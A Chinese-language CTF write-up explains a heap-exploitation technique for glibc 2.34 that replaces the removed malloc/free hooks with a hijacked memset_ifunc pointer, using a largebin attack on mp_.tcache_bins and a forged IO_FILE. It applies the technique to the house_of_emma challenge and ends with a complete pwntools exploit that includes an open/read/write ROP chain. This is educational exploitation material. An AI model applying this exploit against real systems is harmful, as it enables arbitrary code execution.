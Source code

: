 # glibc2.34

# glibc2.34版本下的最新攻击技巧

## 前言

总所周知，我们在做堆题的时候经常是对堆的漏洞进行利用，最终的效果是改malloc hook或者free hook的地址为onegadget或者system的地址来拿到shell，是因为在执行malloc和free的时候，会对这两个地址进行判断，如果不为零，就跳到这个地址去执行，但是，到了glibc2.34的版本之后，就没有了这个判断，不能再利用其来getshell。



## 利用条件

能进行largebin attack



## 适用范围

程序中仅有calloc函数且申请出来的大小不能放进tcache的情况



## 攻击原理

在新版本下，我们主要思想的就是要找一个能代替malloc hook和free hook的东西，我们可以发现在libc中存在很多类似j_xxxxx_ifunc的函数，它会先跳到一个类似got表的地方存放的地址去执行。

![1](./1.jpg)

还有一个就是要解决程序中只有calloc而无法利用tcache进行任意地址分配的问题，于是就想到了IO_str_overflow函数，可以看到里面有malloc、memcpy、free函数，后面还有个我们上面说到的j_memeset_ifunc函数，我们可以通过前面三个任意分配和任意写把memset_ifunc改成任意地址，达到任意代码执行的操作。

![2](./2.jpg)

![3](./3.jpg)



## 具体例题

这里我们就以湖湘杯的house_of_emma为例，给到的是2.34版本的libc。

### 分析

这题漏洞很明显，就是存在uaf。



![4](./4.png)



申请的堆只能大于0x40f，也就是说不能放进tcache bin了



![5](./5.jpg)



### 利用思路

1.利用UAF泄露libc地址和堆地址。

2.利用largebin atack修改mp_.tcache_bins的值为堆地址，之后free掉的chunks都会被放进tcache，而且在申请的时候会从堆里面取地址申请，当我们申请一个大的chunks时，它就会从我们申请的chunks去取地址进行分配，如果在我们申请的chunks改成任意地址，就能造成任意地址分配。

![6](./6.jpg)



3、但是tcache bin里面的chunk是要malloc才能申请出来的，所以我们要改io file结构体去执行 IO_str_overflow函数。这里我们选择的是stdout指针，然后在堆里面布置好iofile结构体

![7](./7.jpg)

![8](./8.jpg)



4、当执行puts函数的时候，就会去执行_GI__IO_str_overflow的malloc函数，他的参数等于（ _IO_buf_end- _IO_buf_base）*2+100



![9](./9.jpg)



5、而我们上面已经将mp_.tcache_bins改成很大的值，所以当申请0x490的chunks的时候，tcache就会从0x55555555b2d0取值去分配，由于我们已经将其地址改成memset_ifunc，就会分配到那里然后调用memcpy进行任意改。

![10](./10.jpg)

6、因为这题开了沙盒，禁用了system，所以我们要通过orw的方法绕过沙盒去读取flag，这里就要找一个合适的gadget，我们一般是找libc上面的setcontext函数，但是前提条件是能控制rdx，所以我们还要找个gadget来控制rdx，这里的rbx和r14是堆的地址比较容易控制，于是就在libc找到以下gadget填入memset_ifunc，执行完gadget之后配合setcontext就能orw顺利拿到flag

```
0x000000000006f476 : mov rdx, rbx ; mov rsi, r13 ; mov rdi, rbp ; call qword ptr [r14 + 0x38]
```



![11](./11.jpg)



### 完整exp

```
from pwn import*
context.log_level=True
libc=ELF('libc.so.6')
#p = process(["./ld.so", "./pwn"],env={"LD_PRELOAD":"./libc.so.6"})
p = process('./pwn')
#p=remote('172.35.19.11',9999)


def add(idx,size):
	p.recvuntil('Pls input the opcode\n')
	payload='\x01'+p8(idx)+p16(size)+'\x05'
	p.send(payload)
def delete(idx):
	p.recvuntil('Pls input the opcode\n')
	payload='\x02'+p8(idx)+'\x05'
	p.send(payload)
def show(idx):
	p.recvuntil('Pls input the opcode\n')
	payload='\x03'+p8(idx)+'\x05'
	p.send(payload)
def edit(idx,data):
	p.recvuntil('Pls input the opcode\n')
	payload='\x04'+p8(idx)+p16(len(data))+str(data)+'\x05'
	p.send(payload)


add(0,0x440)
add(1,0x4a0)
add(2,0x410)
add(3,0x490)
add(4,0x430)
add(5,0x490)
add(6,0x430)
add(9,0x4c0)
add(10,0x490)
add(11,0x490)
add(12,0x490)
add(13,0x490)
add(14,0x490)
add(15,0x490)
add(16,0x490)
delete(1)
show(1)

leak=u64(p.recv(6).ljust(8,'\x00'))
print hex(leak)
libcbase=leak-(0x7ffff7fb10d0-0x00007ffff7dbe000)
arena=leak+(0x00007ffff7fb10b0-0x7ffff7fb0cc0)
addr=libcbase+(0x7ffff7fb0390-0x00007ffff7dbe000) #0x7ffff7fb1660

IO_str_vtable=libcbase+(0x7ffff7fb2620-0x00007ffff7dbe000)
memset_got=libcbase+(0x7ffff7fb0180-0x00007ffff7dbe000)

'''
0x0000000000082513 : mov rdx, rbx ; mov rsi, r12 ; mov rdi, rbp ; call qword ptr [r13 + 0x38]
0x000000000007494a : mov rdx, rbx ; mov rsi, r12 ; mov rdi, rbp ; call qword ptr [r14 + 0x38]
0x000000000006f476 : mov rdx, rbx ; mov rsi, r13 ; mov rdi, rbp ; call qword ptr [r14 + 0x38]
0x000000000002daa2 : pop rdi ; ret
0x0000000000037c0a : pop rsi ; ret
0x00000000001066e1 : pop rdx ; pop r12 ; ret
'''
setcontext=libcbase+0x50BFD
gadget=libcbase+0x000000000006f476

edit(9,p64(gadget)*6+p64(setcontext)*2)

p.recvuntil('Pls input the opcode')
payload='\x01\x07\x00\x05'+'\x02\x03'+'\x04\x01\x20\x00'+p64(arena)*2+p64(0)+p64(addr-0x20)+'\x01\x08\x10\x04\x05'


p.send(payload)


for i in range(7):
	delete(i+10)

#delete(9)

show(11)
leak=u64(p.recvuntil('\x0a',drop=True).ljust(8,'\x00'))<<12
print hex(leak)

heapbase=leak-(0x7ffff8003000-0x7ffff7fff000)
lock=libcbase+(0x7ffff7fb3730-0x00007ffff7dbe000)
addr=libcbase+(0x7ffff7fb1848-0x00007ffff7dbe000)
system=libcbase+libc.sym['system']
puts=libcbase+0x000000000007A050

v4=heapbase+(0x7ffff8003190-0x7ffff7fff000)
rsp=heapbase+(0x7ffff7fff460-0x7ffff7fff000)
flag=heapbase+(0x7ffff7fff760-0x7ffff7fff000)


pop_rdi=libcbase+0x000000000002daa2
pop_rsi=libcbase+0x0000000000037c0a
pop_rdx_r12=libcbase+0x00000000001066e1
fake_IO_FILE = p64(memset_got)
fake_IO_FILE += p64(v4)                #v4
fake_IO_FILE += p64(v4+0x216)
fake_IO_FILE += p64(memset_got)*3
fake_IO_FILE = fake_IO_FILE.ljust(0x58, '\x00')              
fake_IO_FILE += p64(lock)  #lock
fake_IO_FILE += p64(0)  
fake_IO_FILE += p64(0)  
fake_IO_FILE += p64(rsp)  #lock
fake_IO_FILE += p64(pop_rdi)  
fake_IO_FILE = fake_IO_FILE.ljust(0xa8, '\x00')
fake_IO_FILE += p64(IO_str_vtable)        #change vtable



open=libcbase+libc.sym['open']
read=libcbase+libc.sym['read']
write=libcbase+libc.sym['write']


payload='\x02\x05\x03\x05\x03\x05\x03\x05\x03\x05\x03\x05'+'\x04\x01\xd0\x00'+p64(arena)*2+p64(0)+p64(addr-0x20)+fake_IO_FILE+'\x01\x08\x10\x04'
payload=payload.ljust(0x1c0,'\x00')+p64(flag)+p64(open)
payload+=p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(flag)+p64(pop_rdx_r12)+p64(0x30)+p64(0)+p64(read)
payload+=p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(flag)+p64(pop_rdx_r12)+p64(0x30)+p64(0)+p64(write)
payload=payload.ljust(0x4c0,'\x00')+'./flag'
#attach(p,'b *'+str(0x0000555555554000+0x1503)+'\nb *'+str(0x00007ffff7fc2000+0x1886)+'\nb *0x7ffff7e449b9')
#pause()

print hex(libcbase)
print hex(heapbase)

p.send(payload)

p.interactive()



```

